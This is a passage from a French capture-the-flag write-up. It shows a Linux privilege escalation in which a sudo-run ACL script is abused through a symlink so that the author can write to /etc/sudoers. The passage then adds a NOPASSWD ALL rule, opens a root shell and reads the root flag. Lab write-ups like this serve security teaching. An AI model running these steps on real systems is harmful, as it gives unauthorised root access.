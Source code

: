 ```bash
sudo /opt/acl.sh mtz rw /home/mtz/root
```

<div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200">
        <i class="fas fa-check-circle mr-2 text-green-500"></i>
        <strong>Succès :</strong> Les permissions ACL sont maintenant appliquées au fichier <code>/etc/sudoers</code> via le lien symbolique \!
    </p>
</div>

**Modification du fichier sudoers :**

```bash
echo "mtz ALL=(ALL:ALL) NOPASSWD: ALL" >> /home/mtz/root
```

**Vérification de la modification :**

```bash
cat /etc/sudoers | tail -1
```

**Élévation vers root :**

```bash
sudo bash
```

### Résultat de l'exploitation

```bash
id
whoami
```

<div class="bg-gray-100 dark:bg-gray-800 p-4 rounded-lg my-4 font-mono text-sm">
    <div class="text-gray-700 dark:text-gray-300">
        uid=0(root) gid=0(root) groups=0(root)
    </div>
</div>

<div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200 font-bold text-xl">
        <i class="fas fa-crown mr-2 text-amber-500"></i>
        ROOT SHELL OBTENU \! Privilèges maximum atteints.
    </p>
</div>

## �� Phase 9 — Extraction des flags

### Récupération du root flag

Avec l'accès root, nous pouvons maintenant récupérer le root flag :

```bash
cat /root/root.txt
```

